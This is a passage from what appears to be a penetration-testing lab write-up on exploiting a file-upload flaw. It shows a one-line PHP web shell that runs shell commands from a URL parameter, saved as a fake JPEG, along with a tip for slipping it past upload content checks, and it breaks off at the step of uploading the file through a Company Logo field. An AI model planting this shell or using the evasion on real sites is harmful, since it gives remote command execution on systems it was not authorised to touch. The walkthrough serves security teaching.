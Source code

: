 <a href="/images/ptl-13.png"><img src="/images/ptl-13.png"></a>

Alright, so to exploit this vulnerability we will need to upload a PHP Script as a image/jpeg file. What we can do is use a single line php exploit and save it as a __.jpg__ like so.

```console
root@kali:~# nano shell.jpg
root@kali:~# cat shell.jpg 
<? echo shell_exec($_GET['cmd']); ?>
root@kali:~# file shell.jpg 
shell.jpg: ASCII text
```

Note that I do not use "__php__" in my script due to the fact that at times some uploads will read the file content and cause it to error out due to it not being a "legitimate" image file

Once we have that, let's click __Edit__ on the Details page so we can access the edit menu - and then go ahead and browse to our newly created shell from the __Company Logo__ section.

